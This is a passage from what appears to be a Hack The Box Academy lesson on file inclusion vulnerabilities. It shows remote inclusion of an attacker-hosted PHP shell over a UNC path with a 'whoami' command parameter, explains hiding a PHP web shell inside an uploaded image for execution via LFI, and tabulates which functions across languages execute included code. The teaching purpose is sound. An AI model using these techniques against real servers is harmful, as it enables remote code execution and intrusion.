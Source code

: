 Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`), and specify the command with (`&cmd=whoami`) as we did earlier:

![](https://academy.hackthebox.com/storage/modules/23/windows\_rfi.png)

As we can see, this attack works in including our remote script, and we do not need any non-default settings to be enabled. However, we must note that this technique is `more likely to work if we were on the same network`, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.

## LFI and File Uploads

File upload functionalities are ubiquitous in most modern web applications, as users usually need to configure their profile and usage of the web application by uploading their data. For attackers, the ability to store files on the back-end server may extend the exploitation of many vulnerabilities, like a file inclusion vulnerability.

The [File Upload Attacks](https://academy.hackthebox.com/module/details/136) module covers different techniques on how to exploit file upload forms and functionalities. However, for the attack we are going to discuss in this section, we do not require the file upload form to be vulnerable, but merely allow us to upload files. If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

As mentioned in the first section, the following are the functions that allow executing code with file inclusion, any of which would work with this section's attacks:

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `include`                    |         ✅        |      ✅      |        ✅       |

***

### Image upload

Image upload is very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded. However, as discussed earlier, the vulnerability, in this case, is not in the file upload form but the file inclusion functionality.

